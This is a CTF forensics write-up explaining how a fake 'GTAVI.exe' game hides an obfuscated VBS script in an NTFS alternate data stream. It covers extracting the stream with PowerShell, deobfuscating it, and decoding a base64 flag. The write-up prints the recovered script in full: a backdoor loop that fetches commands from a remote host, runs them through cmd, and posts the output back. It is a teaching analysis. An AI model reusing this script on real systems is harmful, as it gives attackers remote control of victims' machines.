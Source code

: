 +++
title = "Headstream - Writeup"
draft = false
ShowToc = false
author = ["connar"]
+++

We've been given a game to analyze that is supposedly malicious. Downloading the Game.rar file, we are met with an executable named "GTAVI.exe".  
Upon running it inside a Virtual Machine (which should never be done in local systems when analyzing malware), the following error messages appear:  

![alt text](/posts/writeups/ctflib/headstream/headstream1.png)

And after clicking the 'OK' button:  

![alt text](/posts/writeups/ctflib/headstream/headstream2.png)  

Since we know that there is more to the challenge than just error messages, we ignore them and try to analyze the executable inside Ghidra tool which is basically a reverse engineering tool. This will end up being a rabbit whole. The most informative artifact we can find is the following:  

![alt text](/posts/writeups/ctflib/headstream/headstream3.png)  

Searching what “ExeScript” is, we find that it is a tool that converts scripts to executables. So our file isn’t really an executable, but a script written in some programming language that is yet unknown to us, and that got later converted to an executable.  
The Ghidra tool, or any other tool in general won’t help us analyze it further. We have to keep in mind that this is not a reverse engineering challenge but a forensic one, so we should instead focus and analyze the file itself since we know that it is some script masked as executable.  
There are plenty ways to do this, with the simpler being windows dir command line options which reveals information about a file based on the option specified. Let’s try out a few options to see what is file really is. In windows, we can get information about a file with the dir command. To view some of the most popular options for dir, we can run help dir in cmd:  

![alt text](/posts/writeups/ctflib/headstream/headstream4.png)  

Starting to try a few of the options, we get to a strange output in the dir /r one which according to the help manual shows alternate data streams of the file:  

![alt text](/posts/writeups/ctflib/headstream/headstream5.png)

This output was far more interesting than the rest. It displays a “wininit.vbs” file and “$DATA” specifier at the end. Not knowing what Alternate data streams are, we google it. Immediately after we search it up, we get a lot of articles referring to this as a technique for hackers to store malicious payloads inside a file:  

![alt text](/posts/writeups/ctflib/headstream/headstream6.png)  

So we are definitely in the right track. We see that Alternate data streams are used to hide data inside a file. Ideally we would like to extract the data hidden in the GTAVI.exe, which in our case is a script called “wininit.vbs”.  
Turning back to google, we find that there are various ways to extract hidden ADS data inside a file, with one being the following Powershell command:  

```ps
PS C:\Users\connar> Get-Content -path .\GTAVI.exe -Stream wininit.vbs
Execute(chr(-658+CLng("&H2e1"))&chr(CLng("&H9e")-46)&chr(-84831+CLng("&H14bd3"))&chr(3372810/CLng("&H7d7a"))&chr(CLng("&H13c99")-80938)&chr(6582950/CLng("&He9c5"))&chr(1184000/CLng("&H9088"))&chr(2118990/CLng("&H77f6"))&chr(-49617+CLng("&Hc249"))&chr(-72592+CLng("&H11c00"))&chr(8797896/CLng("&H13e36"))&chr(1559775/CLng("&H3a07"))&chr(CLng("&H1f38")-7893)&chr(CLng("&H741")-1752)&chr(-40228+CLng("&H9d98"))&chr(-219+CLng("&He5"))&chr(-51578+CLng("&Hc9c9"))&chr(3908740/CLng("&H8ace"))&chr(CLng("&H13bea")-80842)&chr(CLng("&Hac70")-44075)&chr(4605144/CLng("&H9dcc"))&chr(3951240/CLng("&H8764"))&chr(-43857+CLng("&Habc0"))&chr(-85810+CLng("&H14fa4"))&chr(CLng("&H75ee")-30158)&chr(2633266/CLng("&H7d71"))&chr(CLng("&H118e")-4393)&chr(4670380/CLng("&H9ea4"))&chr(4316130/CLng("&H901a"))&chr(-34584+CLng("&H8785"))&chr(464297/CLng("&H11f5"))&chr(1108032/CLng("&H8742"))&chr(-60845+CLng("&Hedfb"))&chr(7913047/CLng("&H1320b"))&chr(-36133+CLng("&H8d9d"))&chr(10981024/CLng("&H171c8"))&chr(455520/CLng("&Hb1f0"))&chr(CLng("&H15525")-87323)&chr(CLng("&Hc375")-49970)&chr(6283344/CLng("&H136b0"))&chr(1773486/CLng("&H58d1"))&chr(-22086+CLng("&H5699"))&chr(7773360/CLng("&H1697c"))&chr(CLng("&H6edb")-28347)&chr(-44523+CLng("&Hae4e"))&chr(CLng("&H13f72")-81681)&chr(1170396/CLng("&H2a55"))&chr(CLng("&Hdc9e")-56370)&chr(-7656+CLng("&H1e4a"))&chr(4666088/CLng("&Hbbe8"))&chr(-9737+CLng("&H266c"))&chr(-67498+CLng("&H10815"))&chr(-88804+CLng("&H15b39"))&chr(CLng("&H15b7f")-88845)&chr(-87680+CLng("&H156ec"))&chr(110016/CLng("&Hd6e"))&chr(CLng("&Ha5e7")-42410)&chr(CLng("&He821")-59393)&chr(-60882+CLng("&Hedf4"))&chr(4223960/CLng("&H9ea7"))&chr(CLng("&Hde5c")-56808)&chr(156600/CLng("&H546"))&chr(CLng("&H2119")-8361)&chr(-14255+CLng("&H37e9"))&chr(1476458/CLng("&H7ab6"))&chr(169153/CLng("&He0f"))&chr(CLng("&H138d7")-80038)&chr(CLng("&H11d8d")-73044)&chr(2498000/CLng("&Hc328"))&chr(-28775+CLng("&H7095"))&chr(-38472+CLng("&H9679"))&chr(4931118/CLng("&H164b5"))&chr(2246720/CLng("&H9cb8"))&chr(2820444/CLng("&Hef82"))&chr(3714006/CLng("&Hfe86"))&chr(-70681+CLng("&H11452"))&chr(4318066/CLng("&H16eaf"))&chr(1358761/CLng("&H6425"...
```

And we get a lot of nonsense, which seems to be obfuscated code (whenever we have text that seems confusing, it is most probably been obfuscated).  
So how do we go about recovering the actual context ?  
We see that the hidden file is named “wininit.vbs”. We must pay attention in the “vbs” extension. With the info we have so far, we can search for how to deobfuscate vbs, which will essentially lead us to the following online tool:  
- https://isvbscriptdead.com/vbs-obfuscator/

Visiting the online tool, it is suggested to replace the “Execute” keyword in our output with “MsgBox”, store this in a new file with “vbs” extension and run it. Following these instructions and running the script, we get the deobfuscated code:  

```vbs
Option Explicit
On Error Resume Next

CONST callbackUrl = "http://192.168.99.5:4444/"

Dim xmlHttpReq, shell, execObj, command, break, result

Set shell = CreateObject("WScript.Shell")

break = False
fso = "Q1RGTElCe2gxZGQxbmdfMW5fdEgzX3N0UjM0bX0="
While break <> True
	Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
	xmlHttpReq.Open "GET", callbackUrl, false
	xmlHttpReq.Send

	command = "cmd /c" & Trim(xmlHttpReq.responseText)

	if InStr(command, "EXIT") Then
		break = True
	Else
		Set execObj = shell.Exec(command)
		
		result = ""
		Do Until execObj.StdOut.AtEndOfStream
			result = result & execObj.StdOut.ReadAll()
		Loop

		Set xmlHttpReq = WScript.CreateObject("MSXML2.ServerXMLHTTP")
		xmlHttpReq.Open "POST", callbackUrl, false
		xmlHttpReq.Send(result)
	End If
Wend
```

We are met with this deobfuscated VBS script. Analyzing the script further does not lead to anything interesting. The only thing that is suspicious is a variable called fso that is not used at all in the script. This variable is equal to a value that seems like a base64 encoded string (because of the equal sign in the end).  
Trying to decode it with CyberChef, we get a flag:  
```py
>>> from base64 import b64decode
>>> b64decode("Q1RGTElCe2gxZGQxbmdfMW5fdEgzX3N0UjM0bX0=")
b'CTFLIB{h1dd1ng_1n_tH3_stR34m}'
>>>
```

Turns out that sometimes the simplest ways to analyze a file goes unnoticed to an analyst. We saw that the power of a reverse tool could not help at all, but some simple command line options solved the problem.  
This shows that not all tools can be used for all the problems.







